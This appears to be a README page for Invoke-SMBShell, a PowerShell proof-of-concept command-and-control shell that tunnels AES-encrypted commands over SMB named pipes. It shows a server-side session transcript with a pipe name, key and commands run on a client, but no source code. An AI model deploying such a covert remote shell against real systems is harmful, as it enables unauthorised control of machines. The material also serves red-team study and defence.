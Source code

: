 ### Invoke-SMBShell

POC shell using named pipes (System.IO.Pipes) as a C2 channel. The SMB traffic is encrypted using AES CBC (code from Empire), the key/pipe are generated randomly by the server on start-up.

**Server:**
```
PS C:\> Invoke-SMBShell

+-------
| Host Name: 0AK
| Named Pipe: tapsrv.5604.yk0DxXvjUD9xwyJ9
| AES Key: q6EKfuJTX93YUnmX
+-------

[>] Waiting for client..


SMB shell: whoami
0ak\b33f

SMB shell: IdontExist
The term 'IdontExist' is not recognized as the name of a cmdlet, function, script file, or operable program. Check the spelling of the name, or if a path was included, verify that the path is correct and try again.

SMB shell: $PSVersionTable
Name                           Value
----                           -----
PSRemotingProtocolVersion      2.2
BuildVersion                   6.2.9200.17065
PSCompatibleVersions           {1.0, 2.0, 3.0}
PSVersion                      3.0
CLRVersion                     4.0.30319.42000
WSManStackVersion              3.0
SerializationVersion           1.1.0.1

SMB shell: leave

[!] Client disconnecting..

[>] Waiting for client..


SMB shell: calc
Job SMBJob-dVkIkAkXINjMe09S completed successfully!

SMB shell: exit

[!] Client disconnecting..
[!] Terminating server..

PS C:\>
```
